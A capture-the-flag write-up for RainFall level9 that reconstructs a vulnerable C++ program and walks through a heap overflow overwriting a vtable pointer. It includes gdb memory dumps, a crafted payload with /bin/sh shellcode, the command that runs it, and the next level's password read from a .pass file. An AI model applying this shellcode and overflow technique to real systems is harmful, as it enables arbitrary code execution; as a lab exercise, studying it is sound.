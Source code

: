 # Level 9

## Answer
Our Cpp source code generates the same assembly code as the original binary. Compile it as follows:
```
g++ -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <cstring>
#include <cstdlib>

class N
{
private:
    // int vtable;
    char annotation[100];
    int nbr;

public:
    N(int val) : nbr(val) {}

    void setAnnotation(char *ann) { std::memcpy(this->annotation, ann, std::strlen(ann)); }

    virtual int operator+(N &other) { return this->nbr + other.nbr; }
    virtual int operator-(N &other) { return this->nbr - other.nbr; }
};

int main(int argc, char **argv)
{
    if (argc <= 1)
        exit(1);

    N *ptr1 = new N(5);
    N *ptr2 = new N(6);

    N &ref1 = *ptr1;
    N &ref2 = *ptr2;

    ref1.setAnnotation(argv[1]);

    return ref2 + ref1;
}
```

Let's focus on the `main` function. It reads input from the command line and then copies it to the `annotation` buffer using `memcpy`. Although `memcpy` is generally considered safe, in this case, we're copying the input without checking its size, which can lead to a buffer overflow. The `setAnnotation` function is called on the first object, allowing us to overflow the first object's buffer and potentially reach the second object's VTable address.

The VTable contains pointers to the virtual functions of the class. When a virtual function is called, the program looks up the VTable to find the address of the function to call. Therefore, by overwriting the VTable pointer, we can manipulate the virtual function call.
> Learn more about vtables [here](https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/).

If we overwrite the VTable pointer with the address of a function or location of our choice, the program will jump to that address instead of the VTable. Then, it will perform another jump, thinking it's jumping to the function pointed to by the VTable. However, it will actually be jumping to our address, allowing us to execute arbitrary code.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
level9@RainFall:~$ ltrace ./level9 test
[...]
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a008 #ptr1
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a078 #ptr2
[...]
```
The `_Znwj` function creates a new `N` object. We can see our two objects are allocated at addresses `0x804a008` and `0x804a078` which are 112 bytes apart.

We assume the following memory layout for each object:  
`[vtable (4 bytes)] [annotation (100 bytes)] [value (4 bytes)] [padding (4 bytes)]`.

Let's confirm our assumptions with `gdb`:
```bash
# Break at the setAnnotation function
(gdb) break _ZN1N13setAnnotationEPc
Breakpoint 1 at 0x8048714

# Run the program with a 112 bytes long input
(gdb) run `python -c 'print("A" * 112)'`
Starting program: /home/user/level9/level9 `python -c 'print("A" * 112)'`

Breakpoint 1, 0x08048714 in N::setAnnotation(char*) ()
(gdb) x/56wx 0x804a008
# This is ptr1
# 0x08048848 is the address of the vtable
# 0x00000000 is the value of annotation
# 0x00000005 is the value of nbr
# 0x00000071 is the value of the padding
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
# This is ptr2
# 0x08048848 is the address of the vtable
# 0x00000000 is the value of annotation
# 0x00000006 is the value of nbr
# 0x00020f21 is the value of the padding
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21

# Continue execution
(gdb) step
Single stepping until exit from function _ZN1N13setAnnotationEPc,
which has no line number information.
0x0804867c in main ()

# As expected, the vtable pointer is overwritten with the input
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x41414141      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

Our assumptions are correct, so to reach the VTable pointer of `ptr2`, we'll need to write 108 bytes of padding. Anything written after that will overwrite the VTable pointer.

Let's craft our payload:
```
address of the shellcode + shellcode + padding + address pointing to the shellcode address

0x0804a008 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A"*(108-4-4-21) + 0x0804a00c

-4 bytes for the address of the shellcode
-4 bytes for the address pointing to the shellcode address
-21 bytes for the shellcode
```

As mentioned before, we'll have to jump twice to reach the shellcode. The first jump is to get to the shellcode address, and the second jump is to get to the shellcode itself.

Let's run our payload:
```bash
level9@RainFall:~$ ./level9 `python -c 'print("\x08\x04\xa0\x10"[::-1] + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * 83 + "\x08\x04\xa0\x0c"[::-1])'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

We are now bonus0! Let's move on to the next level.
